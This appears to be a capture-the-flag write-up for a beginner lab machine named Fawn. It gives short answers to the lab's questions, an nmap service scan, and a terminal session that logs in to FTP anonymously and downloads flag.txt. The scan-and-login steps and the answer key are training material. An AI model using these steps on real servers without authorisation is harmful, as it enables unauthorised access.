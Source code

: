 # Fawn
## task 1
File Transfer Protocol
## task 2
21
## task 3
SFTP
## task 4
ping
## task 5
```
┌──(root㉿cbfc9d3c3a36)-[/]
└─# nmap -sV <your target ip>
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-04 02:38 UTC
Nmap scan report for <your target ip>
Host is up (0.39s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.29 seconds
```
vsftpd 3.0.3
## task 6
Unix
## task 7
```
ftp -h
```
**-h option is not recognized in my kali-linux...**
## task 8
Anonymous
## Submit Flag
```
┌──(root㉿cbfc9d3c3a36)-[/mnt/src/starting_point/tier0/Fawn]
└─# ftp <your target ip>
Connected to <your target ip>.
220 (vsFTPd 3.0.3)
Name (10.129.43.190:root): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||42272|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||51565|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************|    32       13.66 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.05 KiB/s)
```
